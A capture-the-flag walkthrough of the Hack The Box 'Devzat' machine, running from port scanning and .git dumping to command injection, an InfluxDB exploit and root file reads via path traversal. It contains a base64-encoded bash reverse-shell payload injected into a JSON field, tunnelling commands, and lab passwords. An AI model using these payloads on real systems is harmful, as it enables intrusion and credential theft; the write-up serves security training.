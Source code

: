## Enumeration

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:5f:fb:de:32:ff:44:bf:08:f5:ca:49:d4:42:1a:06 (RSA)
|   256 bc:cd:e8:ee:0a:a9:15:76:52:bc:19:a4:a3:b2:ba:ff (ECDSA)
|_  256 62:ef:72:52:4f:19:53:8b:f2:9b:be:46:88:4b:c3:d0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://devzat.htb/
8000/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  3072 6a:ee:db:90:a6:10:30:9f:94:ff:bf:61:95:2a:20:63 (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.91%I=7%D=10/18%Time=616D0F58%P=x86_64-pc-linux-gnu%r(N
SF:ULL,C,"SSH-2\.0-Go\r\n");
Service Info: Host: devzat.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see that 80 port will redirect us to "devzat.htb", so add the domain name to our `/etc/hosts` file.

## HTTP
The website advertises "devzat" a chat application and right at the bottom of the page we can find a way to interact with the chat service `ssh -l [username] devzat.htb -p 8000`. We try to connect to it and we see that we have a limited number of commands that don't lead anywhere. 

After that let's try to discover any vhosts on the domain. 

```bash
gobuster vhost -u http://devzat.htb -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -r -t 80
```

Discovered "pets.devzat.htb". Let's add this to `/etc/hosts` and navigate in our browser.
This time it's an inventory and down at the bottom of the page we find "Add a pet" functionality with two fields "Name the pet" and "Which species is it". The latter is selection menu but the former is a regular text field that we can try for injection.

Now after submitting some special characters we only get an "exit-status-1" response.
Let's investigate this further. We try fuzzing.

```bash
wfuzz -u http://pets.devzat.htb/FUZZ -w /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt -c --hh 510 -t 80
```
```bash
000000021:   301        2 L      3 W        40 Ch       "css"
000001767:   301        2 L      3 W        42 Ch       "build"
000004659:   403        9 L      28 W       280 Ch      "server-status"
000005919:   301        2 L      3 W        41 Ch       ".git"  
```

We got something here, the ".git" directory seems interesting so let's dump it using "git-dumper"

```bash
git_dumper.py http://pets.devzat.htb/.git dump/
```

We get the source code of the pets application. After poking around the code of the main.go we come across a vulnerable "exec" function that directly executes the species name without any input sanitazation. 

```bash
cmd := exec.Command("sh", "-c", "cat characteristics/"+species)$
```

We can leverage this and input a reverse shell. First let's capture the submit request in Burp. Now create the payload (better encoded it):

```bash
echo -n "bash -i >& /dev/tcp/IP/PORT 0>&1" | base64
```

In Burp
```bash
{
    "name":"Anonymous",
    "species":"dog;echo <base64-hash> | base64 -d | bash"
}
```

Open the netcat listener and send the request to get the callback.

## Filesystem
Now we got a limited shell as user `patrick` but we know ssh is open so let's grab patrick's private key and connect through ssh.

Now let's run LinPEAS.

And we see a service running on port 8086. Let's make a port forward on that port 
```bash
ssh -L 8000:127.0.0.1:8086 -i id_rsa patrick@10.10.14.116
# Now browse localhost:8000
```

Alternatively we can use chisel:
```bash
# Local machine
./chisel server -p 8080 --reverse
# Remote machine
./chisel client 10.10.14.116:8080 R:8086:127.0.0.1:8086
# Now browse localhost:8086
```

After accessing that port on browser it's said "404 page not found" and we see it's using php with laravel framework. After enumerating the service with nmap `nmap -A 127.0.0.1 -p 8086` we find that it's running InfluxDB.

With a quick google search we are able to find an exploit [here](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933).

## Exploitation
Running the exploit we disclose a "devzat" database and from there we dump the data from the "user" table `SELECT * FROM "user"`.

Now we have the "catherine" user password "woBeeYareedahc7Oogeephies7Aiseci", so let's su to this account.

## Privilege Escalation
Again running linpeas we find two backup files `devzat-main` and `devzat-dev`. Python is installed on the system so let's download these locally and analyze them.

Now unzip the two files and look inside we get pretty much the same files. So let's use `diff command` for changes inside the files. What we get is `commands.go`. Alternatevely to diff we can use online tools like [Text-Compare](https://text-compare.com/). 

Now comparing the two `commands.go` files we find some differences. First change we see "path/filepath" in "import". Second it's a new command called "/file" and for using that we need password which is hard-coded inside the program and we also see that if the path is not found, the current path will get printed.

`password = CeilingCatStillAThingIn2021?`

And inside "devchat.go" file we see it's running on port 8443.

Back to catherine's shell connect to the service:
```bash
ssh -l user localhost -p 8443
```

If we input a wrong path it's printing the current path `/root/devzat`. 

```bash
/file ../.ssh/id_rsa CeilingCatStillAThingIn2021?
/file ../root.txt CeilingCatStillAThingIn2021?
```

